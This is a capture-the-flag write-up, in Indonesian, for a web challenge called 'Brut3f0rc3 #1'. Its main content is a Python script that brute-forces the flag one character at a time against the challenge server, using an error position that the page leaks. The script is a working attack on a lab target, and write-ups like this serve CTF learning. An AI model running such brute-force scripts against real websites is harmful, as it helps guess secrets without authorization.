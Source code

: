 # Challenge Name: Brut3f0rc3 #1

![Category: Website](https://img.shields.io/badge/Category-Website-lightgrey.svg)
![Point: 500](https://img.shields.io/badge/Score-500-brightgreen.svg)

## Description

Pertama kali Bruteforce pada website ? Dicoba deh ini

## Attached Files

\-

## Solution

disini kita harus mengbrute force flag nya, dengan cara menggunakan file python

```python
import requests
import string
import re

def striphtml(data):
    p = re.compile(r'<.*?>')
    return p.sub('', data)

def generatePayload(index):
    lowerCase = string.ascii_lowercase
    number = string.digits
    simbol = "_"

    gabung = lowerCase + number + simbol
    arr = list(gabung)

    return arr[index]

def request(url, payload, indexError):
    regex = r"<b>(.*?)<\/b>"
    regexSuccess = r"Here is your flag : (.*)"

    r =  requests.get(url + payload)
    data = r.text
    getIndexError = re.findall(regex, data)
    getFlag = re.findall(regexSuccess, data)

    if len(getIndexError) > 0 and int(getIndexError[0]) == indexError:
        return True
    elif len(getFlag) > 0:
        return getFlag[0]
    else:
        return False

def exploit():
    url = "https://web.ctf.rasyidmf.com/chal16/?flag="
    payload = list("CTFR{" + 'a'*30 + "}")

    indexPayload = 0
    indexError = 5

    while True:
        payloadReq = ''.join(payload)
        requestPayload = request(url, payloadReq, indexError)

        if requestPayload:
            indexPayload = indexPayload + 1
            if indexPayload == 37:
                indexPayload = 0
        else:
            indexError = indexError + 1

        payload[indexError] = generatePayload(indexPayload)

        print(f"[~] Trying BruteForce : {payloadReq}", end="\r", flush=True)

        if type(requestPayload) == str:
            print(f"[+] Found Flag : {striphtml(requestPayload)}", end="\n", flush=True)
            break


if __name__ == '__main__':
    exploit()
```

## Screen Shoot

![image1](images/image1.png)

---

[Back to home](/CTFR/)
